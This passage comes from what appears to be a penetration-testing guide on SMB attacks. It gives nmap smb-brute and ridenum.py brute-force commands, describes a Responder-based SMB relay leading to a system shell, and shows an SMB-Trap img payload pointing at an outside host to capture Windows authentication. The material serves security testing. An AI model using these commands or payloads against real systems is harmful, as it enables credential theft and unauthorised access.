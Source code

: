 ```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
```

## SMB relay attack

This attack uses the Responder toolkit to **capture SMB authentication sessions** on an internal network, and **relays** them to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**.\
[**More information about this attack here.**](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

## SMB-Trap

The Windows library URLMon.dll automatically try to authenticaticate to the host when a page tries to access some contect via SMB, for example: `img src="\\10.10.10.10\path\image.jpg"`

This happens with the functions:

- URLDownloadToFile
- URLDownloadToCache
- URLOpenStream
- URLOpenBlockingStream

Which are used by some browsers and tools (like Skype)

![From: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html](<../../images/image (358).png>)

### SMBTrap using MitMf
